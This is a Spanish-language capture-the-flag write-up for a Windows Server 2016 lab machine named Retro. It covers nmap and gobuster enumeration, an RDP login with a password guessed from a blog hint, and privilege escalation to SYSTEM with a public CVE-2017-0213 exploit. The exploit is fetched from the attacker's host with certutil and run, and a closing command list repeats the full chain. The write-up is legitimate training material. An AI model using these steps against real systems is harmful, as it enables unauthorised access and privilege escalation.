# Write-up Retro

**Autor**: Asier González

## Reconocimiento

Empiezo con un escaneo amplio, hasta el puerto `10000`, para ver qué expone la máquina:

```bash
nmap -sC -sV -O -p 1-10000 -T4 -Pn -A IP
```

Descubro dos puertos abiertos:

- `80/tcp` -> IIS `10.0`
- `3389/tcp` -> MSRDP

También veo que la máquina es un `Windows Server 2016`.



## Enumeración

Entro en la web y veo la página por defecto de IIS.

Decido usar `gobuster` para enumerar directorios:

```bash
gobuster dir -u http://IP -w /usr/share/wordlists/dirb/common.txt
```

Con `common.txt` no encuentro nada relevante, así que pruebo con una lista más grande:

```bash
gobuster dir -u http://IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

En esta ocasión aparecen:

- `/retro`
- `/Retro`



Al entrar en `/retro`, veo un blog administrado por un tal `Wade`, muy centrado en *Ready Player One*. En uno de sus posts deja caer que todavía usa el nombre de su avatar cuando intenta iniciar sesión.



Buscando un poco esa referencia, encuentro que el protagonista es `Wade Owen Watts` y que su nombre en OASIS es `Parzival`.

## Explotación

Con esa pista, pruebo acceso por RDP.

Las credenciales que me funcionan son:

- Usuario: `wade`
- Contraseña: `parzival`

Con eso consigo entrar en la máquina.



## Post-explotación

Lo primero que hago es comprobar en qué contexto estoy:

```powershell
whoami /priv
whoami
```



Veo que sigo teniendo pocos privilegios, así que toca investigar la máquina para encontrar una vía de escalada.

En Google Chrome veo un marcador que apunta a un CVE.


Busco esa vulnerabilidad y veo que se trata de una técnica de escalada relacionada con certificados.



Sigo revisando la máquina y encuentro en la papelera un archivo llamado `hhupd.exe`, que es un binario que se ejecuta como administrador.


Lo restauro y lo ejecuto. Me aparece la ventana del certificado del publisher y desde ahí intento seguir la técnica del certificado, pero en este caso no me termina de funcionar.





## Escalada de privilegios

Como esa vía no me resulta útil en esta máquina, busco una alternativa para `Windows Server 2016 (10.0 Build 14393)` y encuentro un exploit público para `CVE-2017-0213`:

```text
https://github.com/SecWiki/windows-kernel-exploits/blob/master/CVE-2017-0213/CVE-2017-0213_x64.zip
```

Lo descargo, lo descomprimo y lo transfiero a la víctima por HTTP.



Después lo ejecuto en la máquina víctima desde una `cmd` y se me abre una nueva shell con privilegios de `SYSTEM`.



## Resultado

La entrada inicial aquí sale otra vez de una pista débil en el blog, pero la escalada no la resuelvo con el truco del certificado, sino con un exploit local para el kernel que encaja con la versión exacta del sistema.

## Resumen de comandos directo a SYSTEM/root

1. `nmap -sC -sV -O -p 1-10000 -T4 -Pn -A IP`
2. `gobuster dir -u http://IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
3. Identificar en `/retro` la pista `Wade -> Parzival`
4. `xfreerdp /u:wade /p:parzival /v:IP`
5. `whoami /priv`
6. Buscar un exploit para `Windows Server 2016 Build 14393`, en este caso `CVE-2017-0213`
7. En Kali: `python3 -m http.server 8000`
8. `certutil -urlcache -f URL exploit.exe`
9. `.\exploit.exe`
10. `whoami`
